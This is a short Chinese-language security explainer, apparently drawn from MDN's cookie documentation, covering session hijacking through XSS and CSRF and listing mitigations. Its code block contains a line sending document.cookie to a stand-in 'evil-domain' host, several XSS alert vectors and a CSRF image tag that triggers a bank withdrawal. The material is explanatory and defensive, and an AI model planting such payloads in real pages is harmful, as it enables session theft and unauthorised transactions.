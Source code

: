# 安全
::: warn
当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。
:::

## 会话劫持和XSS
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
<body onload="alert('test1')"/>
<img src="http://url.to.file.which/not.exist" onerror="alert(document.cookie);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"/>
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

## 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## more
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
[Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)
